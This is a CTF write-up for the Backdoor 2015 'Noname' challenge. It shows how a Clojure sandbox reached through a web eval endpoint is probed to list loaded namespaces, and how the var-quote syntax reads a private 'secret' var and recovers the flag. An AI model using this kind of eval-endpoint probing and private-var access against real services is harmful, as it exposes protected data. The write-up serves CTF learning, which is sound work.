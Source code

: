 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - Noname Writeup"
date: 2015-04-03 00:42:36 +0430
comments: true
categories: ctf, clojure, sandbox
---
```



**Backdoor2015 NONAME Writeup**  
**Point = 200**  
**Category = Exploit**  
**Description : **  

> Intrestingly enough, even though it was not expected, Chintu found a cool website to play with, though he can't get the flag. Can you? Visit [this](https://agile-garden-1672.herokuapp.com/). Submit the SHA-256 hash of the flag obtained. 
> 
> Welcome to Noname! You can see an intrepreter above
Get admin's flag and admin's secret. Remember admin is one of the people
Submit sha-256 of secret and flag joined
Get admin's flag and admin's secret. Remember admin is one of the people
Submit sha-256 of secret and flag joined

We could see  see an intrepreter like this : 

<!-- more -->

![enter image description here](http://up.ashiyane.org/images/7f689wqyxbbwiaxbwl.png)
so first for testing script give "1" as input it will retrun "1" again ..
lets check whats going on in browser run firebug and check : 

![enter image description here](http://up.ashiyane.org/images/2fmqsv03ko2qatsw10tq.png)

Its using JSON with eval.json at this [LINK](https://agile-garden-1672.herokuapp.com/eval.json?expr=1) .
Lets see whats happen if we execute our codes directly : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=*](https://agile-garden-1672.herokuapp.com/eval.json?expr=*)
And the response : 

>    {"expr":"*","result":"#<core$_STAR_ clojure.core$_STAR_@5ca69ca5>"}
 cool , Its Clojure and * is built-in function in "clojure.core"
 lets google clojure.core and find all functions of this library :
[http://clojure.github.io/clojure/clojure.core-api.html](http://clojure.github.io/clojure/clojure.core-api.html)
this link has all built-in functions of this library . after little searching found (loaded-libs) function .
more googling about clojure i understood that for using function out syntax shoud be like 
(function) . for loaded-libs it should be (loaded-libs) and response : 

>    {"expr":"(loaded-libs)","result":"#{bultitude.core cheshire.core cheshire.factory cheshire.generate cheshire.parse clj-time.core clj-time.format clj-yaml.core clojail.core clojail.jvm clojail.testers clojure.core.cache clojure.core.incubator clojure.core.memoize clojure.data.priority-map clojure.java.io clojure.main clojure.repl clojure.set clojure.stacktrace clojure.string clojure.template clojure.test clojure.tools.macro clojure.tools.reader clojure.tools.reader.default-data-readers clojure.tools.reader.edn clojure.tools.reader.impl.ExceptionInfo clojure.tools.reader.impl.commons clojure.tools.reader.impl.utils clojure.tools.reader.reader-types clojure.walk clout.core compojure.core compojure.handler compojure.response compojure.route flatland.useful.fn flatland.useful.seq flatland.useful.utils hiccup.compiler hiccup.core hiccup.def hiccup.element hiccup.middleware hiccup.page hiccup.util noir.cookies noir.request noir.response noir.session noir.util.crypt noir.util.middleware noir.validation noname.models.eval noname.people.admin noname.server noname.views.eval noname.views.home ring.adapter.jetty ring.middleware.content-type ring.middleware.cookies ring.middleware.file-info ring.middleware.flash ring.middleware.format ring.middleware.format-params ring.middleware.format-response ring.middleware.head ring.middleware.keyword-params ring.middleware.multipart-params ring.middleware.multipart-params.temp-file ring.middleware.nested-params ring.middleware.params ring.middleware.session ring.middleware.session.memory ring.middleware.session.store ring.util.codec ring.util.io ring.util.mime-type ring.util.response ring.util.servlet ring.util.time serializable.fn}"}

Found good things : 

    noname.models.eval noname.people.admin noname.server noname.views.eval noname.views.home


specialy "noname.people.admin" because of hint of question: 

> Remember admin is one of the people

Its loaded , so we can use it in our codes but we dont know functions and classes
little googling found "clojure.repl/dir" it can list classes , functions ... : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=(clojure.repl/dir noname.people.admin)](https://agile-garden-1672.herokuapp.com/eval.json?expr=%28clojure.repl/dir%20noname.people.admin%29)

and response :

>    {"expr":"(clojure.repl/dir noname.people.admin)","result":"flag\nnil"}

oh . "flag" .... lets check if its public : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=%28print%20noname.people.admin/flag%29](https://agile-garden-1672.herokuapp.com/eval.json?expr=%28print%20noname.people.admin/flag%29)

 yes , its public , we can use it in interpreter : 
![enter image description here](http://up.ashiyane.org/images/b95z537owt2a0cmrm1ca.png)
 
 got second part of flag : 
 

    Give me some code:
> (noname.people.admin/flag)
> Ma flag is : _b7w_1_l1k3_60l4n6_700nil
>  

We need first part of flag called admin's secret , let test  (noname.people.admin/secret)
and response id error : 

>    {"error":true,"message":"java.lang.IllegalStateException: var: noname.people.admin/secret is not public"}

it private , and because of namespace we cant use it also we cant switch our namespace becuase "ns" is closed by Java.Security...

lets google and find a way for bypass :)
found this http://christophermaier.name/blog/2011/04/30/not-so-private-clojure-functions

awesome :D

do what it said :  
![enter image description here](http://up.ashiyane.org/images/lqo0cppgkh89dci505u1.png)

and its the first part of the flag :

> (#'noname.people.admin/secret)
> "Ma secret is: [redacted]"
> 
> Flag Format = sha256(secret+flag)
> sha256(1_4m_50..[FILTERED]..1k3_60l4n6_700)
> **[redacted]**

200 points ;)

WriteUp By PARSA
